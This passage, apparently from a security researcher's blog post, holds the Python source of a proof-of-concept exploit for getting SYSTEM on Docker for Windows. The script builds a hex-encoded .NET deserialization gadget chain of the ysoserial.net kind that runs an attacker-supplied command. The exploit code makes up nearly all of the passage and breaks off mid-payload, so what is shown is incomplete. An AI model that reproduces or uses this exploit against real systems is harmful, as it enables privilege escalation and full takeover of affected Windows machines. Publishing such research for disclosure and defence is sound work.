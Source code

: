 {% include image.html
            img="assets/images/docker-exploit.png"
            title="Getting SYSTEM via Docker for Windows"
            caption="Getting SYSTEM via Docker for Windows"
            style="width:50%;height:50%" %}

<p class="cn" markdown="1">Here is the source to the poc:</p>

```python
import sys
import struct

if len(sys.argv) != 2:
    print "(+) usage %s <cmd>" % sys.argv[0]
    print "(+) eg: %s \"whoami > c:\\si.txt\"" % sys.argv[0]
    sys.exit(-1)
    
cmd = "/c %s" % sys.argv[1]

payload  = "\x00\x01\x00\x00\x00\xff\xff\xff\xff\x01\x00\x00\x00\x00\x00\x00\x00\x0c\x02\x00"
payload += "\x00\x00\x49\x53\x79\x73\x74\x65\x6d\x2c\x20\x56\x65\x72\x73\x69\x6f\x6e\x3d\x34"
payload += "\x2e\x30\x2e\x30\x2e\x30\x2c\x20\x43\x75\x6c\x74\x75\x72\x65\x3d\x6e\x65\x75\x74"
payload += "\x72\x61\x6c\x2c\x20\x50\x75\x62\x6c\x69\x63\x4b\x65\x79\x54\x6f\x6b\x65\x6e\x3d"
payload += "\x62\x37\x37\x61\x35\x63\x35\x36\x31\x39\x33\x34\x65\x30\x38\x39\x05\x01\x00\x00"
payload += "\x00\x84\x01\x53\x79\x73\x74\x65\x6d\x2e\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e"
payload += "\x73\x2e\x47\x65\x6e\x65\x72\x69\x63\x2e\x53\x6f\x72\x74\x65\x64\x53\x65\x74\x60"
payload += "\x31\x5b\x5b\x53\x79\x73\x74\x65\x6d\x2e\x53\x74\x72\x69\x6e\x67\x2c\x20\x6d\x73"
payload += "\x63\x6f\x72\x6c\x69\x62\x2c\x20\x56\x65\x72\x73\x69\x6f\x6e\x3d\x34\x2e\x30\x2e"
payload += "\x30\x2e\x30\x2c\x20\x43\x75\x6c\x74\x75\x72\x65\x3d\x6e\x65\x75\x74\x72\x61\x6c"
payload += "\x2c\x20\x50\x75\x62\x6c\x69\x63\x4b\x65\x79\x54\x6f\x6b\x65\x6e\x3d\x62\x37\x37"
payload += "\x61\x35\x63\x35\x36\x31\x39\x33\x34\x65\x30\x38\x39\x5d\x5d\x04\x00\x00\x00\x05"
payload += "\x43\x6f\x75\x6e\x74\x08\x43\x6f\x6d\x70\x61\x72\x65\x72\x07\x56\x65\x72\x73\x69"
payload += "\x6f\x6e\x05\x49\x74\x65\x6d\x73\x00\x03\x00\x06\x08\x8d\x01\x53\x79\x73\x74\x65"
payload += "\x6d\x2e\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x47\x65\x6e\x65\x72\x69"
payload += "\x63\x2e\x43\x6f\x6d\x70\x61\x72\x69\x73\x6f\x6e\x43\x6f\x6d\x70\x61\x72\x65\x72"
payload += "\x60\x31\x5b\x5b\x53\x79\x73\x74\x65\x6d\x2e\x53\x74\x72\x69\x6e\x67\x2c\x20\x6d"
payload += "\x73\x63\x6f\x72\x6c\x69\x62\x2c\x20\x56\x65\x72\x73\x69\x6f\x6e\x3d\x34\x2e\x30"
payload += "\x2e\x30\x2e\x30\x2c\x20\x43\x75\x6c\x74\x75\x72\x65\x3d\x6e\x65\x75\x74\x72\x61"
payload += "\x6c\x2c\x20\x50\x75\x62\x6c\x69\x63\x4b\x65\x79\x54\x6f\x6b\x65\x6e\x3d\x62\x37"
payload += "\x37\x61\x35\x63\x35\x36\x31\x39\x33\x34\x65\x30\x38\x39\x5d\x5d\x08\x02\x00\x00"
payload += "\x00\x02\x00\x00\x00\x09\x03\x00\x00\x00\x02\x00\x00\x00\x09\x04\x00\x00\x00\x04"
payload += "\x03\x00\x00\x00\x8d\x01\x53\x79\x73\x74\x65\x6d\x2e\x43\x6f\x6c\x6c\x65\x63\x74"
payload += "\x69\x6f\x6e\x73\x2e\x47\x65\x6e\x65\x72\x69\x63\x2e\x43\x6f\x6d\x70\x61\x72\x69"
payload += "\x73\x6f\x6e\x43\x6f\x6d\x70\x61\x72\x65\x72\x60\x31\x5b\x5b\x53\x79\x73\x74\x65"
payload += "\x6d\x2e\x53\x74\x72\x69\x6e\x67\x2c\x20\x6d\x73\x63\x6f\x72\x6c\x69\x62\x2c\x20"
payload += "\x56\x65\x72\x73\x69\x6f\x6e\x3d\x34\x2e\x30\x2e\x30\x2e\x30\x2c\x20\x43\x75\x6c"
payload += "\x74\x75\x72\x65\x3d\x6e\x65\x75\x74\x72\x61\x6c\x2c\x20\x50\x75\x62\x6c\x69\x63"
payload += "\x4b\x65\x79\x54\x6f\x6b\x65\x6e\x3d\x62\x37\x37\x61\x35\x63\x35\x36\x31\x39\x33"
payload += "\x34\x65\x30\x38\x39\x5d\x5d\x01\x00\x00\x00\x0b\x5f\x63\x6f\x6d\x70\x61\x72\x69"
payload += "\x73\x6f\x6e\x03\x22\x53\x79\x73\x74\x65\x6d\x2e\x44\x65\x6c\x65\x67\x61\x74\x65"
payload += "\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x6f\x6c\x64\x65\x72\x09"
payload += "\x05\x00\x00\x00\x11\x04\x00\x00\x00\x02\x00\x00\x00\x06\x06\x06\x07\x00\x00\x00"
payload += "\x03\x63\x6d\x64\x04\x05\x00\x00\x00\x22\x53\x79\x73\x74\x65\x6d\x2e\x44\x65\x6c"
payload += "\x65\x67\x61\x74\x65\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x6f"
payload += "\x6c\x64\x65\x72\x03\x00\x00\x00\x08\x44\x65\x6c\x65\x67\x61\x74\x65\x07\x6d\x65"
payload += "\x74\x68\x6f\x64\x30\x07\x6d\x65\x74\x68\x6f\x64\x31\x03\x03\x03\x30\x53\x79\x73"
payload += "\x74\x65\x6d\x2e\x44\x65\x6c\x65\x67\x61\x74\x65\x53\x65\x72\x69\x61\x6c\x69\x7a"
payload += "\x61\x74\x69\x6f\x6e\x48\x6f\x6c\x64\x65\x72\x2b\x44\x65\x6c\x65\x67\x61\x74\x65"
payload += "\x45\x6e\x74\x72\x79\x2f\x53\x79\x73\x74\x65\x6d\x2e\x52\x65\x66\x6c\x65\x63\x74"
payload += "\x69\x6f\x6e\x2e\x4d\x65\x6d\x62\x65\x72\x49\x6e\x66\x6f\x53\x65\x72\x69\x61\x6c"
payload += "\x69\x7a\x61\x74\x69\x6f\x6e\x48\x6f\x6c\x64\x65\x72\x2f\x53\x79\x73\x74\x65\x6d"
payload += "\x2e\x52\x65\x66\x6c\x65\x63\x74\x69\x6f\x6e\x2e\x4d\x65\x6d\x62\x65\x72\x49\x6e"
payload += "\x66\x6f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x6f\x6c\x64\x65"
payload += "\x72\x09\x08\x00\x00\x00\x09\x09\x00\x00\x00\x09\x0a\x00\x00\x00\x04\x08\x00\x00"
payload += "\x00\x30\x53\x79\x73\x74\x65\x6d\x2e\x44\x65\x6c\x65\x67\x61\x74\x65\x53\x65\x72"
```

[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo